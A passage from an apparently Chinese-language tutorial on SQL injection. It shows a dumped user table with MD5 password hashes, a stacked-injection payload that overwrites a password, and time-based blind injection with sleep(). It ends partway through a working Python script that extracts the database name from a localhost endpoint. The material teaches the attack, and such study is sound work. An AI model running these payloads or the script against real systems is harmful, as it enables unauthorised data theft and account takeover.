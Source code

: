```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "root",
    "specification": "2ecdde3959051d913f61b14579ea136d",
    "type": "4",
    "price": 5
  },
  {
    "id": 2,
    "productName": "haha",
    "specification": "e10adc3949ba59abbe56e057f20f883e",
    "type": "4",
    "price": 5
  }
]
```

### 堆叠注入

上面的例子中，虽然我们拿到了密码，也成功破解了密码，但是这是基于密码简单的情况，那么如果密码复杂，破解不了怎么办呢？一个思路就是直接修改用户密码为我们已知的简单密码，这个可以利用堆叠注入来实现。何为堆叠注入呢，就是输入类似`1;update user set password = '12345' where id =1`这种方式，让执行完查询语句后在执行更新语句，以达到我们的目的。但是很遗憾，这种方式有很大的局限性，主要就是我们常用的ORM框架并不支持同时执行多条sql语句，因此很难实现注入。据了解，这种方式在php语言中可以成功实践。

### 时间盲注

前面两种注入方式都是在有返回值且将sql异常打印到前端的情况下可以利用的，那么如果我们要攻击的网站没有任何返回信息该怎么办呢，这里在介绍一种注入方式：**时间盲注**。他利用了一个mysql提供的核心函数：`sleep()`。这个函数可以让sql语句执行完毕后延迟特定的时间在返回。例如这条sql语句` select * from product where id = 111 and sleep(10)`，如果id=111的数据存在，那么and前面的条件为真，就会走到后面的`sleep`函数，延迟10秒返回结果，如果id=111的数据不存在，and前面的条件为false，那么就不会走到sleep而直接返回。因此，根据这个特性，我们就可以用来猜测数据库名称、表结构等一系列动作。比如我们可以构造这样一条sql语句：`select * from product where id = 1 and substr(database(),1,1)='a' and sleep(10)`。那么如果`substr(database(),1,1)='a'`为真，就会响应很慢，我们就可以推测出数据库第一个字母就是`a`，否则就换`b`在尝试，如此循环，直到找到正确的为止。因为这个动作是比较耗时耗力的，如果我们手动来做，肯定很辛苦，所以一般可以采用python脚本的方式来实现：

```python
import requests;
import time;

def getDatabaseLength():
    for i in range(1,20):
        url = 'http://localhost:8888/stock/reduce?id=1 and length(database())=%d and sleep(2)'%(i)
        startTime = time.time()
        requests.get(url)
        endTime=time.time()
        if endTime - startTime > 1:
            print('length is => ',i)
            return i

def getDatabaseName():
    databaseName = ''
    databaseLength = getDatabaseLength()
    for i in range(1, databaseLength + 1):
        for asci in range(33,128):
            url = 'http://localhost:8888/stock/reduce?id=1 and ascii(substr(database(),%d,1))=%d and sleep(2)'%(i,asci)
            startTime = time.time()
            requests.get(url)
            endTime=time.time()
```